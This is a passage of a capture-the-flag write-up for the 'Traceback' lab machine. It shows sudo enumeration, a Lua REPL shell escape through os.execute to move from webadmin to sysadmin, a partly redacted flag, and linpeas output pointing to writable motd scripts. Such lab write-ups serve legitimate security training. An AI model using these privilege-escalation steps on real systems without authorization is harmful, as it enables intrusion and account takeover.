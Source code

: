 Checking for sudo permission, we get

```ruby
webadmin@traceback:~$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

We can read .bash_history

```ruby
webadmin@traceback:~$ cat .bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
logout
```

Since sysadmin can execute luvit without a password, and from [Gtfobins](https://gtfobins.github.io/gtfobins/lua/) for lua, we can do the following

```bash
sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
> os.execute("/bin/sh")
$ /bin/bash -i
sysadmin@traceback:~$

```

We find the user.txt in the home directory of sysadmin

```ruby
sysadmin@traceback:/home/sysadmin$ cat user.txt
fd6186ad24c8547bc98-------------
```

### Privilege Escalation

Running [linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) we find the following information. 

```ruby
[+] Interesting GROUP writable files (not in Home)
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#writable-files
  Group sysadmin:
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/sysadmin/linpeas.sh
/home/sysadmin/luvit
/home/sysadmin/.local
/home/sysadmin/pspy64.dms
```
